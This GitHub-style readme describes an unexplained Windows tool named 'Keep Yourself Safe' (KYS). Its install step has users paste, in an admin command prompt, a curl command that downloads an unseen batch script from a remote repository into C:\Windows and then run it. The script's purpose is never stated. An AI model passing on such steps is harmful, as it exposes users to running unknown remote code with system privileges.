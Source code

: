 <h1> Keep Yourself Safe </h1>

<div style="background-image: url(/Smth/main/noise.png)">
<h2> Screenshot </h2>
<img src="Screen.png"  width="500" height="600" alt="screen.png">

<h2> How to install </h2>
<p> You just need open cmd with admin perms, and paste next command. </p>

```curl -o c:\windows\kys.bat https://raw.githubusercontent.com/blozaza/Smth/main/kys.bat```

<h3> Notice that files will stored in Windows packpage. </h3>

<h2> Run </h2>
<p> After installing, you can run it with command KYS in cmd. </p>

<h2> Unistall</h2>
<p> You can easly remove all files by paste next command in cmd with admin perms ofc. </p>

```del c:\windows\kys.bat```

<p> Or by your own by moving to `c:\windows\` and delete `kys.bat` file </p>

<h2>Source</h2>
<p> All images and text were generated using open source services that do not require mention. </p>
</div>

> :P

